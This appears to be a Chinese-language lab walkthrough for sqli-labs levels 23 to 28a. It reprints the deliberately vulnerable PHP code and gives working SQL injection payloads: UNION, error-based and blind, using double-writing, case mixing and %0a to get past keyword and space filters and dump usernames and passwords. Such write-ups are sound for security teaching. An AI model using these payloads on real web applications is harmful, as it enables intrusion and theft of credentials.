





### 第二十三关

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  

// take the variables if(isset($_GET['id']))  
{  
$id=$_GET['id'];  

//filter the comments out so as to comments should not work  
$reg = "/#/";  
$reg1 = "/--/";  
$replace = "";  
$id = preg_replace($reg, $replace, $id);  
$id = preg_replace($reg1, $replace, $id);  
//logging the connection parameters to a file for analysis.  
$fp=fopen('result.txt','a');  
fwrite($fp,'ID:'.$id."\n");  
fclose($fp);  

// connectivity   

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);  

    if($row)  
    {  
    echo '<font color= "#0000ff">';      
    echo 'Your Login name:'. $row['username'];  
    echo "<br>";  
    echo 'Your Password:' .$row['password'];  
    echo "</font>";  
    }  
    else   
{  
    echo '<font color= "#FFFF00">';  
    print_r(mysql_error());  
    echo "</font>";    
    }  
}  
    else { echo "Please input the ID as parameter with numeric value";}  

?>

关键代码

`$reg = "/#/";  
$reg1 = "/--/";  
$replace = "";  
$id = preg_replace($reg, $replace, $id);  
$id = preg_replace($reg1, $replace, $id);`

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

闭合方式''

    ?id=1''

爆字段

    ?id=1' order by 3 and '1'='1

    下面的可行

    ?id=1' group by 1,2,3 and '1'='1

爆现错位

    ?id=-1' union select 1,2,3 and '1'='1 



爆数据库名

    ?id=-1' union select 1,database(),3 and '1'='1



爆表名

    ?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() and '1'='1



爆列名

    ?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' and '1'='1



爆数据

    ?id=-1' union select 1,(select group_concat('%',id,username,password) from security.users),3 and '1'='1



### 第二十五

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  


// take the variables if(isset($_GET['id']))  
{  
    $id=$_GET['id'];  
    //logging the connection parameters to a file for analysis.  
    $fp=fopen('result.txt','a');  
    fwrite($fp,'ID:'.$id."\n");  
    fclose($fp);  

    //fiddling with comments  
    $id= blacklist($id);  
    //echo "<br>";  
    //echo $id;    //echo "<br>";    $hint=$id;  

// connectivity   
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
    $result=mysql_query($sql);  
    $row = mysql_fetch_array($result);  
    if($row)  
    {  
       echo "<font size='5' color= '#99FF00'>";     
       echo 'Your Login name:'. $row['username'];  
       echo "<br>";  
       echo 'Your Password:' .$row['password'];  
       echo "</font>";  
    }  
    else   
{  
       echo '<font color= "#FFFF00">';  
       print_r(mysql_error());  
       echo "</font>";    
    }  
}  
else {   
    echo "Please input the ID as parameter with numeric value";  
}  


function blacklist($id)  
{  
    $id= preg_replace('/or/i',"", $id);          //strip out OR (non case sensitive)  
    $id= preg_replace('/AND/i',"", $id);      //Strip out AND (non case sensitive)  
    return $id;  
}  


?>

绕过方法

`

```SQL
1.使用&&、||或者like 
&& substr(database(),1,1)='t'
|| substr(database(),1,1)='t'
注：在mysql中and与or 是可以用&&和||相互代替的 
双写绕过
aandnd 和oorr
如：and 1=1 ->&& 1=1  or 1=1 ->||1=1 
不过在oracle中，||为拼接字符，如：’a’||’b’->’ab’，相当于mysql中的concat()
like+if(substr(database(),1,1)='s',1,0)=1--+（此处的like需要结合判断函数使用）
```

sql语句

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

爆字段

    ?id=1' oorrder by 3 -- qwe

爆现错位

    ?id=-1' union select 1,2,3 -- qwe

爆数据库名

    ?id=-1' union select 1,database(),3 -- qwe

爆表名

    ?id=-1' union select 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema=database() -- qwe

爆列名

    ?id=-1' union select 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_schema=database() anandd table_name='users' -- qwe

爆数据

    ?id=-1' union select 1,group_concat('%',id,passwoorrd,username),3 from security.users -- qwe

### 第二十五a

与上一关的区别在于闭合不同`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

直接爆数据

     ?id=-1 union select 1,group_concat('%',id,passwoorrd,username),3 from security.users -- qwe

### 第二十六关

过滤函数

`function blacklist($id)  
{  
    $id= preg_replace('/or/i',"", $id);          //strip out OR (non case sensitive)  
    $id= preg_replace('/and/i',"", $id);      //Strip out AND (non case sensitive)  
    $id= preg_replace('/[\/\*]/',"", $id);    //strip out /*  
    $id= preg_replace('/[--]/',"", $id);      //Strip out --  
    $id= preg_replace('/[#]/',"", $id);          //Strip out #  
    $id= preg_replace('/[\s]/',"", $id);      //Strip out spaces  
    $id= preg_replace('/[\/\\\\]/',"", $id);      //Strip out slashes  
    return $id;  
}`

sql语句

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

构造闭合

    ?id=1' || '1'='1

 爆字段

    ?id=-1' union select 1,2,3 || '1'='1不行，应为去除了空额导致union select变为unionselect因此得选报错注入，用()分割语句

爆数据库

    ?id=1' || updatexml(1,concat(0x7e,database(),0x7e),1) || '1'='1     

爆表名

    ?id=1' || updatexml(1,select(group_concat(table_name)) from(infoorrmation_schema.tables) where (table_schema)=database(),1) || '1'='1 

    ?id=1' || updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database()),0x7e),1)||'1'='1

### 第二十六关a

相比上一关的变化    

`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

`//print_r(mysql_error());`

不能使用报错注入，闭合为('')

##### 使用盲注

判断数据库长度

      ?id=1')anandd(length(database())=7)anandd('1

      ?id=1')anandd(length(database())=8)anandd('1

猜测第一个数据库名

      ?id=1')anandd(substr(database(),1,1)='a')anandd('1

      ?id=1')anandd(substr(database(),1,1)='b')anandd('1

      ?id=1')anandd(substr(database(),1,1)='c')anandd('1

      。

      。

      。

     ?id=1')anandd(substr(database(),1,1)='s')anandd('1

猜测第其它数据库名

    ?id=1')anandd(substr(database(),2,1)='e')anandd('1

    ?id=1')anandd(substr(database(),3,1)='c')anandd('1

    。

    。

    ?id=1')anandd(substr(database(),8,1)='y')anandd('1

以此类推猜出完整库名security

    若上面还是不行可以尝试进行ascii加密再次尝试

    ?id=1')anandd(ascii(substr(database(),1,1))=115)anandd('1

爆破表名

    表长度

        ?id=1')anandd(length((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_sc hema='security')))=29)anandd('1

    爆破

       ?id=1')anandd(substr((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security')),1,1)='e')anandd('1

  如上通过不停替换截取函数参数即可

爆破列名

    列长度

        ?id=1')anandd(length((select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')anandd(table_name='users')))=20)anandd('1

 爆username的数据 ，password数据类似

### 第二十七关

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  

// take the variables if(isset($_GET['id']))  
{  
    $id=$_GET['id'];  
    //logging the connection parameters to a file for analysis.  
    $fp=fopen('result.txt','a');  
    fwrite($fp,'ID:'.$id."\n");  
    fclose($fp);  

    //fiddling with comments  
    $id= blacklist($id);  
    //echo "<br>";  
    //echo $id;    //echo "<br>";    $hint=$id;  

// connectivity   
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
    $result=mysql_query($sql);  
    $row = mysql_fetch_array($result);  
    if($row)  
    {  
       echo "<font size='5' color= '#99FF00'>";     
       echo 'Your Login name:'. $row['username'];  
       echo "<br>";  
       echo 'Your Password:' .$row['password'];  
       echo "</font>";  
    }  
    else   
{  
       echo '<font color= "#FFFF00">';  
       print_r(mysql_error());  
       echo "</font>";    
    }  
}  
    else { echo "Please input the ID as parameter with numeric value";}  


function blacklist($id)  
{  
$id= preg_replace('/[\/\*]/',"", $id);     //strip out /*  
$id= preg_replace('/[--]/',"", $id);       //Strip out --.  
$id= preg_replace('/[#]/',"", $id);       //Strip out #.  
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.  
$id= preg_replace('/select/m',"", $id);     //Strip out spaces.  
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.  
$id= preg_replace('/union/s',"", $id);      //Strip out union  
$id= preg_replace('/select/s',"", $id);     //Strip out select  
$id= preg_replace('/UNION/s',"", $id);      //Strip out UNION  
$id= preg_replace('/SELECT/s',"", $id);     //Strip out SELECT  
$id= preg_replace('/Union/s',"", $id);      //Strip out Union  
$id= preg_replace('/Select/s',"", $id);     //Strip out select  
return $id;  
}  


?>

匹配闭合方式

    ?id=1' and '1'='1

爆字段

    ?id=1' uniunionon selseselectlectect '1'='1发现不行，应为空格被过滤了依旧只能报错注入使用()分割语句

    ?id=1' ||updatexml(1,database(),1) and '1'='1

    ?id=1' || updatexml(1,concat(0x5e,database(),0x5e),1) and '1'='1

爆表名

    ?id=1' || updatexml(1,(seselselectectlect (group_concat(table_name)) from (information_schema.tables) where (table_schema)=database()),1) and '1'='1

爆列名

    ?id=1' || updatexml(1,(seselselectectlect (group_concat(column_name)) from (information_schema.columns) where (table_schema)=database()and(table_name)='users'),1) and '1'='1

爆数据

    ?id=1' || updatexml(1,(selselselectectect (group_concat('%',id,username)) from (security.users) ),1) and '1'='1

### 第二十七关a

源码区别

`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";  
   //print_r(mysql_error());`

`爆出回显位
?id=0"%0AUNiON%0ASEleCT%0A1,2,3%0A||"1"="1
本关id=-1是能查出数据的会覆盖后面
爆库
?id=0"%0aUNiOn%0aSEleCT%0a1,database(),3%0a||"1""1
爆表名
?id=0"%0aUNiON%0aSEleCT%0a1,concat(0x7e,(SEleCT(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),0x7e),3%0a||"1"="1
爆列名
?id=0"%0aUNiOn%0aSEleCT%0a1,concat(0x7e,(SEleCt(group_concat(column_name))from(information_schema.columns)where(table_name)='users'),0x7e),3%0a||"1"="1
爆数据
?id=0"%0aUNioN%0aSEleCT%0a1,concat(0x7e,(SEleCT(group_concat(id,'$',password))from(security.users)),0x7e),3%0a||"1"="1`

### 第二十八关

相比于上一关过滤变简单了，闭合改变了

`

```SQL
爆字段
?id=0%27)%0Aunionunion%0Aselect%0Aselect%0A1,2,3||(%271=1
?id=0')%0aunionunion%0aselect%0aselect%0a1,2,3;%00
爆表
?id=0')%0aunionunion%0aselect%0aselect%0a1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),0x7e),3||('1=1
爆列名
?id=0')%0aunionunion%0aselect%0aselect%0a1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)='users'),0x7e),3||('1=1
爆数据
?id=0')%0aunionunion%0aselect%0aselect%0a1,concat(0x7e,(select(group_concat(username,'$',password))from(security.users)),0x7e),3||('1=1
```

### 第二十八关a

`

```SQL
爆字段
?id=0%27)%0Aunionunion%0Aselect%0Aselect%0A1,2,3||(%271=1
?id=0')%0aunionunion%0aselect%0aselect%0a1,2,3;%00
爆表
?id=0')%0aunionunion%0aselect%0aselect%0a1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),0x7e),3||('1=1
爆列名
?id=0')%0aunionunion%0aselect%0aselect%0a1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)='users'),0x7e),3||('1=1
爆数据
?id=0')%0aunionunion%0aselect%0aselect%0a1,concat(0x7e,(select(group_concat(username,'$',password))from(security.users)),0x7e),3||('1=1
```
